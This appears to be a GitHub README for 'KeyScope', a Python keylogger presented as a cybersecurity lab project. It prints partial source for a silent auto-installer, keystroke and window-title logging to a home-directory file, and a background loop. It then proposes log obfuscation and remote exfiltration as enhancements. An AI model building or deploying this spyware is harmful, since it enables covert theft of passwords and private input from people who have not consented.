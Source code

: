 # KeyScope Documentation

## Overview

**KeyScope** is a cross-platform Python-based keylogger that automatically installs its required modules and logs both keystrokes and active window titles with timestamps. The project is intended for use in authorized cybersecurity labs and internship simulations.



## File: [keyscope.py](/keylogger.py)

### 1. Imports and Setup

```python
import os
import sys
import subprocess
import time
from datetime import datetime
import platform
```
- These modules handle file operations, subprocess management, date/time, and platform detection.



### 2. Auto-Installer Function

```python
def install_and_import(package):
    try:
        __import__(package)
    except ImportError:
        subprocess.run(
            [sys.executable, "-m", "pip", "install", package],
            stdout=subprocess.DEVNULL,
            stderr=subprocess.DEVNULL
        )
        time.sleep(1)
```
- This function imports a package or installs it silently if missing.
- It suppresses output for stealth and cleanliness.



### 3. Install Required Packages

```python
install_and_import("keyboard")
install_and_import("psutil")
```
- Ensures `keyboard` and `psutil` are available before logging begins.

Platform-specific packages:
```python
if platform.system() == "Windows":
    install_and_import("pygetwindow")
elif platform.system() == "Darwin":
    install_and_import("pyobjc-framework-Quartz")
```



### 4. Get Active Window Title

```python
def get_active_window_title():
    ...
```

- **Windows**: Uses `pygetwindow` to fetch current window title.
- **macOS**: Uses `AppKit` via `pyobjc` to detect the active application.
- **Linux**: Uses `xdotool` (assumes it’s installed via system package manager).



### 5. Log File Path

```python
log_file = os.path.expanduser("~\keylog.txt") if platform.system() == "Windows" else os.path.expanduser("~/keylog.txt")
```

- Sets the log file location based on operating system.



### 6. Log Initialization

```python
with open(log_file, "a") as f:
    f.write(f"\n\n[+] Logger started at {datetime.now()}\n")
```

- Appends a header to the log with a start timestamp.



### 7. Keystroke & Window Change Logging

```python
def log_key(event):
    ...
```

- Logs:
    - Timestamp
    - Keystroke
    - Current window (if changed since last recorded)

Uses `keyboard.on_press(log_key)` to register all key presses.


### 8. Execution Loop

```python
keyboard.wait()
```

- Keeps the keylogger running indefinitely in the background.



## Security & Ethics Considerations

- This tool is designed for educational use in secure, authorized environments.
- It should never be deployed or tested without explicit consent and legal authorization.



## Potential Enhancements

- Log file encryption or obfuscation
- Remote exfiltration (email/SFTP) — lab simulation only
- Add GUI or CLI toggles for starting/stopping logging
- Integration with behavior analysis or SIEM lab tools